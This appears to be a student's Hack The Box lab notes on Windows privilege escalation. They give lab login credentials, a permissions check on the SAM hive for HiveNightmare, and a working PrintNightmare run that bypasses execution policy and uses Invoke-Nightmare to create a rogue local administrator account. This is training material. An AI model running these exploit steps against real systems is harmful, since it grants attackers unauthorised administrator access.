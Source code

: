 
## LAB

xfreerdp /v:10.129.43.13 /u:htb-student /p:HTB_@cademy_stdnt!

C:\Users\htb-student>type c:\Users\Administrator\Desktop\flag.txt
Access is denied.

#### CVE-2021-36934 HiveNightmare, aka SeriousSam


C:\Users\htb-student>icacls c:\Windows\System32\config\SAM
c:\Windows\System32\config\SAM BUILTIN\Administrators:(I)(F)
                               NT AUTHORITY\SYSTEM:(I)(F)
                               BUILTIN\Users:(I)(RX)
                               APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                               APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files

--> HiveNightmare.exe not present on target

### CVE-2021-1675/CVE-2021-34527 PrintNightmare

PS C:\Tools> ls \\localhost\pipe\spoolss


    Directory: \\localhost\pipe


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
                                                 spoolss

PS C:\Tools> Set-ExecutionPolicy Bypass -Scope Process

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A

PS C:\Tools> Import-Module .\CVE-2021-1675.ps1
PS C:\Tools> Invoke-Nightmare -NewUser "hacker2" -NewPassword "Pwnd1234!" -DriverName "PrintIt"
[+] created payload at C:\Users\htb-student\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_ce3301b66255a0fb\Amd64\mxdwdrv.dll"
[+] added user hacker2 as local administrator
[+] deleting payload from C:\Users\htb-student\AppData\Local\Temp\nightmare.dll

PS C:\Tools> net user hacker2
User name                    hacker2
Full Name                    hacker2
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never
